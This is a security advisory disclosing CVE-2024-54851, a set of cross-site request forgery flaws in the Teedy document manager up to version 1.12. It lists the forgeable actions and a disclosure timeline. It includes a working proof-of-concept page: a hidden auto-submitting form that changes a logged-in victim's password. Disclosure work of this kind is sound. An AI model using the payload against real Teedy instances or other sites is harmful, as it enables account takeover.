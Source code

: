 # CVE-2024-54851

## Summary

| ID                    | CVE-2024-54851                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | CSRF                                                     |
| **Title**             | Multiple CSRF                                            |
| **Product impacted**  | Teedy                                                    |
| **Impacted version**  | <= 1.12                                                  |
| **CVSS Score**        | 6.5                                                      |
| **Author**            | Sopalinge                                                |

## Description

Due to the lack of Cross-Site Request Forgery (CSRF) protections, most requests of the Teedy API in versions 1.12 and prior are vulnerable to such attack. This allows unauthenticated remote attackers to trick users into unknowingly performing arbitrary actions, such as editing profile information or tampering with the application data.

The only requests that are not vulnerable are the ones that ask for the account password, as it can't be guessed by the attacker.

The session cookie `SameSite` attribute is not defined, therefore the exploitation of POST CSRF will depend on the browser of the victim.

## Impact

The Teedy API documentation did not reveal any sensitive GET requests. However, multiple POST/PUT/DELETE... requests are sensitive and vulnerable to CSRF. The following requests are vulnerable (non-exhaustive list) :
 - Password change for current user
 - Account information change for any user
 - Account deletion for current or any user
 - Disable TOTP authentication for any user
 - Create a new user
 - Add any user to any group
 - Remove any user to any group
 - Delete group
 - ...


## Proof of concept

This PoC will trick the user into changing its current password for the one defined in the `value` attributes below. The attacker has to host the following page onto its server and trick a user connected to Teedy to visit this website.
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://172.21.114.187:8080/api/user" method="POST">
      <input type="hidden" name="password" value="hackedpwd" />
      <input type="hidden" name="passwordconfirm" value="hackedpwd" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

> [!IMPORTANT]
> In Chromium-based browser, the user needs to have connected 2 min prior to visiting the attacker page, due to the default behaviour of the SameSite attribute when not defined [^1].

[^1]: [Chromium SameSite FAQ](https://www.chromium.org/updates/same-site/faq/)

## Timeline

- 23/10/2024 : Vulnerability discovered
- 24/10/2024 : Vendor contacted
- 12/12/2024 : CVE ID attributed
- 28/01/2025 : CVE publicly disclosed


## References

- [Teedy source code](https://github.com/sismics/docs)

